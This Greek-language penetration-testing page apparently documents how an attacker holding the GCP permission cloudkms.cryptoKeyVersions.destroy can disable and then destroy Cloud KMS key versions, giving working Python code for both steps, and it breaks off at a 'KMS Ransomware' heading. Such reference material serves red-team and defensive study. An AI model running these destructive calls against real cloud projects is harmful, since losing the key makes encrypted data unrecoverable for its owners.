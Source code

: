 {% content-ref url="../gcp-services/gcp-kms-enum.md" %}
[gcp-kms-enum.md](../gcp-services/gcp-kms-enum.md)
{% endcontent-ref %}

### `cloudkms.cryptoKeyVersions.destroy`

Ένας επιτιθέμενος με αυτή την άδεια θα μπορούσε να καταστρέψει μια έκδοση KMS. Για να το κάνετε αυτό, πρέπει πρώτα να απενεργοποιήσετε το κλειδί και στη συνέχεια να το καταστρέψετε:
```python
# pip install google-cloud-kms

from google.cloud import kms

def disable_key_version(project_id, location_id, key_ring_id, key_id, key_version):
"""
Disables a key version in Cloud KMS.
"""
# Create the client.
client = kms.KeyManagementServiceClient()

# Build the key version name.
key_version_name = client.crypto_key_version_path(project_id, location_id, key_ring_id, key_id, key_version)

# Call the API to disable the key version.
client.update_crypto_key_version(request={'crypto_key_version': {'name': key_version_name, 'state': kms.CryptoKeyVersion.State.DISABLED}})

def destroy_key_version(project_id, location_id, key_ring_id, key_id, key_version):
"""
Destroys a key version in Cloud KMS.
"""
# Create the client.
client = kms.KeyManagementServiceClient()

# Build the key version name.
key_version_name = client.crypto_key_version_path(project_id, location_id, key_ring_id, key_id, key_version)

# Call the API to destroy the key version.
client.destroy_crypto_key_version(request={'name': key_version_name})

# Example usage
project_id = 'your-project-id'
location_id = 'your-location'
key_ring_id = 'your-key-ring'
key_id = 'your-key-id'
key_version = '1'  # Version number to disable and destroy

# Disable the key version
disable_key_version(project_id, location_id, key_ring_id, key_id, key_version)

# Destroy the key version
destroy_key_version(project_id, location_id, key_ring_id, key_id, key_version)
```
### KMS Ransomware

